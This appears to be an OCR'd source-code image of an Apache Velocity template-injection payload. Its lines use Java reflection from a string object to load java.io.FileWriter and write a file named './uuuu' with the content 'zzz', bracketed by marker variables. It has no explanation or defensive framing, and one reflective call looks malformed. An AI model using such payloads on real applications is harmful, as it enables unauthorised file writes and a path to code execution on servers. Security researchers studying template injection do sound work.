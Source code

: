 #set( $monkey = '888888888888888888888888=========99999999999999999999999' )
$monkey
#set ($e="exp")
#set ($a=$e.getClass().forName("java.io.FileWriter"))
#set ($b = $a.FileWriter("./uuuu"))
#set ($c = $b.write("zzz"))
#set ($d = $b.flush())
#set ($e = $b.close())
$a
$b
$c
$d
$e
$monkey
